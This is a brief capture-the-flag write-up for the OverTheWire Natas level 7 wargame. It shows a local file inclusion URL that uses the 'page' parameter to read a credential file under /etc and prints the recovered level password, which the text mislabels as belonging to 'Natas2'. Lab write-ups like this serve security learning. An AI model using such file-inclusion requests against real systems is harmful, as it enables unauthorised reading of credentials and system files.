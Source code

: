 # Natas 7

Link : http://natas7.natas.labs.overthewire.org/

Natas 7 screen :

<img src="imgs/natas7.PNG" alt="Natas7 screen">

Natas 7 source code :

<img src="imgs/url_natas7.png" alt="url Natas7">

Hint: password for webuser natas8 is in /etc/natas_webpass/natas8

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```
<img src="imgs/natas7_sol.PNG" alt="natas7 sol">

So the password for Natas2 is : DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe